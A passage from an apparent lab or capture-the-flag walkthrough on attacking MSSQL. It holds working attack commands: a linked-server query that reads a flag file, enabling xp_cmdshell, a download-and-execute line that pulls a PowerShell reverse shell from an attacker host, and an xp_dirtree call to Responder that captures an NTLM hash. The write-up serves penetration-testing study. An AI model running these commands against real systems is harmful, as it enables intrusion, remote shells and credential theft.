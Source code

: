 
We can now execute commands as the sysadmin privilege on remote server. 

```cmd-session
EXECUTE('SELECT * FROM OPENROWSET(BULK N''C:/Users/Administrator/Desktop/flag.txt'', SINGLE_CLOB) As Contents') AT [LOCAL.TEST.LINKED.SRV]
```


### Reverse Shell

First check the privilege by typing in `help`:

![](https://i.imgur.com/ADm124T.png)


Enable **xp_cmdshell**:

`enable_xp_cmdshell` & `RECONFIGURE`

![](https://i.imgur.com/zDNomDR.png)


To spawn reverse shell, prepare nishang's **Invoke-PowerShellTcp.ps1** on your attacking directory and start python HTTP server.

Using the command below, download and execute reverse shell script toward your Kali listener:

`EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.17:8000/ps-rev.ps1") | powershell -noprofile'`

![](https://i.imgur.com/ScVyR6x.png)


Now on your local netcat listener, you have a shell:

![](https://i.imgur.com/NaBRupU.png)


## Relay Attack

Follow [this guide](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#steal-netntlm-hash-relay-attack) on Hacktricks.

First start Responder:

`sudo responder -I tun0`

![](https://i.imgur.com/7mAQptg.png)


Now on MSSQL connection, make a request to Kali's responder:

`xp_dirtree '\\10.10.14.17\home\yoon`

![](https://i.imgur.com/3e75O33.png)



Instantly, reponsder captures NTLM hash:

![](https://i.imgur.com/OCuWc95.png)


On [Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server), there's more detailed guide on pentesting MSSQL.

